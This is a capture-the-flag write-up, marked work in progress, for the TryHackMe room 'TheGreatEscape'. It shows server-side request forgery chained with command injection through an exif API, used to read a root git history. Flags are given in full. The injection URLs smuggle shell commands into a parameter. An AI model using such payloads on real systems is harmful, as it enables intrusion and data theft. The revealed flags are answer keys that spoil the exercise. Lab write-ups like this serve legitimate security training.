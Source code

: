# Room: [TheGreatEscape](https://tryhackme.com/room/thegreatescape)


:warning: Work in progress :warning:

## Basic enum:

the `robots.txt` gives us  http://10.10.204.152/exif-util/

=> http://escape.thm/exif-util.bak.txt ...

```bash
Fascinant! http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;ls%20-lrtah

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;ls%20-larth%20/root/.git

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;git%20--git-dir%20/root/.git%20log

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;git%20--git-dir%20/root/.git%20show%20a3d30a7d0510dc6565ff9316e3fb84434916dee8
```
Ok so at least we have:

```bash
commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes

diff --git a/dev-note.txt b/dev-note.txt
new file mode 100644
index 0000000..89dcd01
--- /dev/null
+++ b/dev-note.txt
@@ -0,0 +1,9 @@
+Hey guys,
+
+I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.
+
+Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
+
+Cheers,
+
+Hydra
\ No newline at end of file
diff --git a/flag.txt b/flag.txt
new file mode 100644
index 0000000..aae8129
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1,3 @@
+You found the root flag, or did you?
+
+THM{0cb4b947[Redcated]b75a10876}
\ No newline at end of file
```


<details><summary>Click to reveal the user flag</summary>
<p>

    ```txt
    THM{0cb4b947043cb5c0486a454b75a10876}
    ```
</p>
</details>


```bash
# cd .well-known
# ls
security.txt
# cat security.txt
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```

Ok fair enough :nerd_face:

```
root@X-X-X-X:~# curl -IXHEAD http://plop.thm/api/fl46
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sat, 17 Jul 2021 19:42:15 GMT
Connection: keep-alive
flag: THM{b801135[Redcated]a44c2e5ad4}
```

<details><summary>Click to reveal the root flag</summary>
<p>

    ```txt
      THM{b801135794bf1ed3a2aafaa44c2e5ad4}
    ```
</p>
</details>

